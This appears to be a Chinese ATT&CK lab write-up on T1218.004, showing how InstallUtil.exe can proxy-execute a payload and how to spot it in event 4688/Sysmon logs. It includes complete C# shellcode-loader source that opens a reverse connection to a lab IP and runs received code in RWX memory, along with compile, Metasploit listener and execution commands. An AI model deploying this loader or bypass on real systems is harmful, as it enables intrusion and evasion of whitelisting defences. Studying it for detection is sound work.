 # T1218-004-win-基于白名单Installutil.exe执行payload

## 来自ATT&CK的描述

命令行实用程序InstallUtil可用于通过执行.NET二进制文件中指定的特定安装程序组件来安装和卸载资源。

InstallUtil位于Windows系统上的.NET目录中：

C:\Windows\Microsoft.NET\Framework\v\InstallUtil.exe

C:\Windows\Microsoft.NET\Framework64\v\InstallUtil.exe

InstallUtil.exe由Microsoft进行数字签名。攻击者可能会使用InstallUtil通过受信任的Windows实用程序来代理执行代码。攻击者还可以用Installutil来绕过进程白名单，方法是在二进制文件中使用属性，这些属性执行用属性[System.ComponentModel.RunInstaller(true)]修饰的类。

## 测试案例

说明：Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### x64 CS

```cs
using System;using System.Net;using System.Linq;using System.Net.Sockets;using System.Runtime.InteropServices;using System.Threading;using System.Configuration.Install;using System.Windows.Forms;
public class GQLBigHgUniLuVx {
public static void Main()
{
while(true)
{{ MessageBox.Show("doge"); Console.ReadLine();}}
}
 }

 [System.ComponentModel.RunInstaller(true)]
 public class esxWUYUTWShqW : System.Configuration.Install.Installer
 {
 public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
 {
 jkmhGrfzsKQeCG.LCIUtRN();
 }

 }
 public class jkmhGrfzsKQeCG
 { [DllImport("kernel")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
 [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
 [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
 static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
 IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
 Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

 try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
 catch { return null;}
 byte[] UmquAHRnhhpuE = new byte[4];
 XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
 int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE,0);
 byte[] qaYyFq = new byte[kFVRSNnpj +5];
 int SRCDELibA =0;
 while(SRCDELibA < kFVRSNnpj)
 { SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA +5,(kFVRSNnpj - SRCDELibA)<4096 ? (kFVRSNnpj - SRCDELibA) : 4096,0);}
 byte[] TvvzOgPLqwcFFv =BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
 Array.Copy(TvvzOgPLqwcFFv,0, qaYyFq,1,4); qaYyFq[0]=0xBF;
 return qaYyFq;}
 static void cmMtjerv(byte[] HEHUjJhkrNS) {
 if(HEHUjJhkrNS !=null) {
 UInt32 WcpKfU = VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
 Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
 IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
 UInt32 wdjYKFDCCf =0;
 IntPtr XVYcQxpp = IntPtr.Zero;
 UhxtIFnlOQatrk = CreateThread(0,0, WcpKfU, XVYcQxpp,0, ref wdjYKFDCCf);
 WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF); }}
 public static void LCIUtRN() {

byte[] IBtCWU =null; IBtCWU = ErlgHH("192.168.126.146",4444);
cmMtjerv(IBtCWU);
} }

```

#### 编译payload

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe  /unsafe C:\Users\Administrator\Desktop\a\installutil.cs
```

![编译payload](https://img-blog.csdnimg.cn/20200413152034249.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

![监听](https://img-blog.csdnimg.cn/20200413152209214.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 执行payload

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```

#### 反弹shell

![执行payload](https://img-blog.csdnimg.cn/20200413152353294.png)

## 测试留痕

```bash
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
```

![日志留痕](https://img-blog.csdnimg.cn/20200413152656624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-004

<https://attack.mitre.org/techniques/T1218/004/>

基于白名单Installutil.exe执行payload

<https://micro8.gitbook.io/micro8/contents-1/71-80/72-ji-yu-bai-ming-dan-installutil.exe-zhi-hang-payload-di-er-ji>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
